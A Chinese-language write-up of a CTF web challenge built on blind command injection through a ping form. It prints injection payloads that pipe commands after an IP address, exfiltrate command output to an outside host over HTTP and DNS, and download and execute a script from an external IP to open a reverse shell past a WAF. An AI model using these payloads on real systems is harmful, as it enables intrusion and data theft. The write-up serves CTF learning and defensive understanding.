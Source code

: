 ```yaml
---
title: happyMoctf-ping一下好吗WP
tags:
  - ctf
  - Web
  - 漏洞研究
category: [渗透测试,Web安全,命令执行]
abbrlink: 8f0228b2
date: 2018-02-15 18:39:15
---
```

# 0x00 前言
这道题着重点在于没有回显的命令执行，waf也侧重在于防止反弹shell，一般的命令没有过滤。对于没有回显的命令执行一般可以通过`DNS通道/HTTP通道`和`反弹shell`。
# 0x01 DNS通道/HTTP通道
post ip=0.0.0.0|curl ***.ceye.io/\`whoami\`，在ceye那个网站可以看到有返回消息(Linux在命令参数执行命令的有\`\` 和$()两种，这里()被过滤)
![图片.png](http://upload-images.jianshu.io/upload_images/5443560-c408e1c41f14c7e5.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
<!-- more -->
执行`ls|base64`(要经过base64编码是因为有一些不可打印字符和空格)解码后可以看到
![图片.png](http://upload-images.jianshu.io/upload_images/5443560-1e0c7759a04a3ad3.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)。
然后cat就可以读flag。这里面出了个小差错，`<?php`后面忘记加空格，导致直接访问查看源码可以直接看到flag。说个好玩的，我13号早上把flag文件名的名字改了，然后晚上查看日志的时候居然发现几个ip在直接访问旧的flag文件名。
![图片.png](http://upload-images.jianshu.io/upload_images/5443560-0d402cd5889e2bc2.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
dns类似，直接post \`command\`.xx.ceye.io就可以

# 0x02 反弹shell
由于直接反弹shell的命令几乎都会触发waf，所以可以先把执行shell的命令保存到本地，再执行。这里面不存在wget，只能利用curl。`-`被禁了，不能通过-o来保存到文件，可以通过`>`。写到/tmp底下执行
post ip=0.0.0.0|curl 139.199.2.226:6666/1 >/tmp/1
![图片.png](http://upload-images.jianshu.io/upload_images/5443560-c8eecae75ecda861.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
然后本机监听8080端口
![图片.png](http://upload-images.jianshu.io/upload_images/5443560-bb7e6e0b6aaebf0c.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

post ip=0.0.0.0|/chmod +x tmp/1
添加执行权限
post ip=0.0.0.0|/tmp/1
反弹成功
![图片.png](http://upload-images.jianshu.io/upload_images/5443560-798bfb8dbf456659.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)




